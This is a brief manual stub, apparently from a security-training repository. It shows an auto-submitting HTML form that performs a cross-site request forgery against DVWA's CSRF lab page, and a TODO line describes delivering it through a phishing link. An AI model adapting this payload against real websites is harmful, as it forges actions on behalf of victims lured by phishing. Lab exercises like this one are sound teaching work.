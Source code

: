 # Manual

TODO: Demonstrate how to leverage a phishing link with HTML file to input the parameters.

```html
<html>
  <body>
    <form action="https://dvwa.local/dvwa/vulnerabilities/csrf/" method="post">
      <input type="hidden" name="parameter" value="<sending_data>" />
      <input type="submit" value="submitbtn" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```